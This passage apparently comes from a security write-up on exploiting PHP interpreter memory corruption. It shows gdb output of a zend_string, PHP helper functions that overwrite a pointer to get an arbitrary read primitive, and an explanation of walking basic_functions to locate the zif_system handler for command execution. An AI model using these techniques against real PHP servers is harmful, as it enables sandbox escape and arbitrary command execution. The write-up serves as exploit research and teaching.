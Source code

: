 So if we interpret this memory as a `zend_string` we can visualize it better:

```c
gef➤  print (zend_string)*0x00007ffff3e55ec0
$3 = {
  gc = {
    refcount = 0x1, 
    u = {
      type_info = 0x46
    }
  }, 
  h = 0x800000017c8778f1, 
  len = 0x4, 
  val = "K"
}
```

As we can overwrite bytes inside the `$helper` object, we can take advantage of it to overwrite the pointer to the original `a` string (our "KKKK") with a pointer to any desired address. After overwriting the pointer, we can read safely the bytes at the address + 0x10 (`len` field inside `zend_string`) calling `strlen()` with our `$helper->a`. Using this simple trick we can get an arbitrary read primitive:

```php
private function write(&$str, $p, $v, $n = 8) {
    $i = 0;
    for ($i = 0; $i < $n; $i++) {
        $str[$p + $i] = chr($v & 0xff);
        $v >>= 8;
    }
}
private function leak($addr, $p = 0, $s = 8) {
    $this->write($this->placeholder, 0x10, $addr);
    $leak = strlen($this->helper->a);
    if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
    return $leak;
    }
```

# [Iggy & The Stooges - Search And Destroy](https://www.youtube.com/watch?v=LC9km8qnbOY)

The next step in our exploit is to search where the `basic_functions` structure is located in memory, and then walk it until we find the handler for `zif_system` or similar functions that allow us the execution of commands. Although this is really well explained in the quoted article, let's just give it a short explanation here.

In PHP the “basic” functions are grouped into `basic_functions` for registration, this being an array of `zend_function_entry` structures. Therefore, in this `basic_functions` we will have, ultimately, an ordered relationship of function names along with the pointer to them (handlers). The `zend_function_entry` structure is defined as:

```c
typedef struct _zend_function_entry {
    const char *fname;
    void (*handler)(INTERNAL_FUNCTION_PARAMETERS);
    const struct _zend_internal_arg_info *arg_info;
    uint32_t num_args;
    uint32_t flags;
} zend_function_entry;
```

